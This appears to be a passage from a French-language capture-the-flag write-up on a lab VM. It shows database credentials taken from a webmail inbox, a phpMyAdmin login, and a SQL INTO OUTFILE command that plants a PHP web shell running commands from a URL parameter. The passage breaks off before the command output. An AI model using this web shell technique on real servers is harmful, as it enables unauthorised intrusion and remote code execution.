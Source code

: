 Nous arrivons donc sur la boîte mail de `lmezard`, celle-ci contient 2 emails:

![lmezard_webmail](assets/lmezard_webmail.png)

Un email qui pourrait être intéressant est celui dont l'object est `DB Access`, quand nous l'ouvrons elle contient des identifiants pour se connecter à la db.

```
Hey Laurie,

You cant connect to the databases now. Use root/Fg-'kKXBj87E:aJ$

Best regards.
```

Vu que nous n'avons toujours pas accèss au serveur nous pouvons essayer les identifiants `root - Fg-'kKXBj87E:aJ$` sur phpmyadmin.

## Étape 5 - PhpMyAdmin:

Avec les identifiants trouvé dans le email de `lmezard` nous arrivons à nous connecter sur `phpmyadmin`.

Nous savons que le forum est develloppé en `php`, depuis la console `SQL` de PhpMyAdmin nous pouvons essayer d'injecter une nouvelle page php dans le forum.

En tapant cette commande `SELECT "<?php system($_GET['cmd']) ?>" into outfile "/var/www/forum/templates_c/term.php"` dans la console sql, nous créeons un fichier nommé `term.php` dans le dossier `templates_c` du forum. La nouvelle page est accessible [ici](https://192.168.56.101/forum/templates_c/term.php).

La page que nous avons injecté, permet de recevoir des commandes dans l'url qui seront exécuté par la php sur le serveur.

Par exemple `192.168.56.101/forum/templates_c/term.php?cmd=pwd` nous donne le resultat suivant:
